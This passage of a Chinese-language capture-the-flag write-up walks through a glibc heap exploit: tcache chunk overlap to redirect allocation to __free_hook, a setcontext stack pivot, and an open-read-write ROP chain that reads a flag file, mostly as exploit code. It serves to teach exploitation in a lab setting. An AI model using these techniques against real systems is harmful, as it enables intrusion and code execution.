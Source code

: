    ```c
   add(0xf8,b"a"*0xf8 + b"\x71")
   free()
   ```

   这里将chunk的size改大，但是其任然位于0x110的tcache中：

   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409230908892.png" alt="image-20240922213455216" style="zoom:50%;" />

2. 先申请再释放，再申请就能得到改打后的chunk了，直接覆盖到第三个chunk的size字段，改为free_hook地址（这里并没有用到_int_realloc中的unlink），这里同时要将原本0x210的chunk的size字段修改为别的，不然后面再申请释放后任然在0x210的tcache，就会申请不到free_hook：

   ```py
   # 利用overlapping 修改0x210chunk的next字段
   add(0x100,b"FFFFFFF")
   free()
   add(0x168,b"a"*0x108 + p64(0xf0) + p64(free_hook_addr - 0x8))
   free()
   ```

   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409230908703.png" alt="image-20240922213721953" style="zoom:50%;" />

3. 申请到free_hook，往上面写入setcontext + 51进行栈迁移，这里`直接往libc上写入ORW`，因为再去泄漏堆地址的话add申请堆块的次数不够用，往libc上些ORW，然后`栈迁移往libc上迁移`的效果是一样的：

   ```py
   # ORW
   syscall = read_addr+15
   flag = libc_base+0x3EDA28
   
   # open(0,flag)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(pop_rax_ret)+p64(2)
   # orw+=p64(syscall)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(libc_base+0x3EDA90)     # 从地址 读出flag
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(write_addr) + b"./flag\x00"
   
   rsp = free_hook_addr + 0xa0 # 写在libc上orw的首地址
   
   # 申请到free_hook 填入setcontext进行栈迁移
   add(0x200,b"aaa") # 取出原本0x210chunk
   free()		#放进别的tcache entries里面
   #pause()
   
   payload = p64(0) + p64(setcontext_addr)
   payload = payload.ljust(0xa0,b"\x00")
   payload += p64(rsp) + p64(ret) # rsp rcx传参
   payload += orw
   add(0x200,payload)	#申请到free_hook往里面一次写入
   # pause()
   free()
   ```
